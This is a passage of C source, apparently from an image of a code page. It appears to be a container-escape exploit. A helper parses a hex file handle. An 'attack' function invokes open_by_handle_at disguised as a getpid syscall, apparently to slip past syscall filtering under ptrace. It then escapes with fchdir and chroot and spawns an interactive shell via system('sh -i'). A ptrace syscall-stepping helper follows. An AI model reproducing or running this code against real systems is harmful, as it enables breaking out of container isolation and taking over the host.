 ```c
	char *ep;
	int n, val;

	n = 0;
	while(*p) {
		while(isspace(*p)) p++;
		val = strtoul(p, &ep, 16);
		if(ep != p + 2)
			return -1;
		p = ep;
		buf[n++] = val;
		while(isspace(*p)) p++;
	}
	return n;
}

void attack(char *fn, char *dat)
{
	unsigned char buf[16 + MAX_HANDLE_SZ];
	struct file_handle *fp = (struct file_handle *)buf;
	int n, mfd, fd;

	fp->handle_type = 1;
	n = getDat(dat, fp->f_handle);
	if(n == -1) {
		printf("bad data!\n");
		exit(1);
	}
	fp->handle_bytes = n;
	mfd = open(fn, 0);
	if(mfd == -1) {
		perror(fn);
		exit(1);
	}

	//fd = open_by_handle_at(mfd, fp, 0);
	fd = syscall(SYS_getpid, SYS_open_by_handle_at, mfd, fp, 0);
	if(fd == -1) {
		perror("open_by_handle");
		exit(1);
	}
	printf("opened %d\n", fd);
	fchdir(fd);
	chroot(".");
	system("sh -i");

}

/* step to start or end of next system call */
int sysStep(int pid)
{
	int st;
	if(ptrace(PTRACE_SYSCALL, pid, NULL, NULL) == -1) {
		perror("ptrace syscall");
		return -1;
	}
	if(waitpid(pid, &st, __WALL) == -1) {
		perror("waitpid");
		return -1;
	}
	//printf("status %x\n", st);
	if(!(WIFSTOPPED(st) && WSTOPSIG(st) == SIGTRAP))
		return -1;
```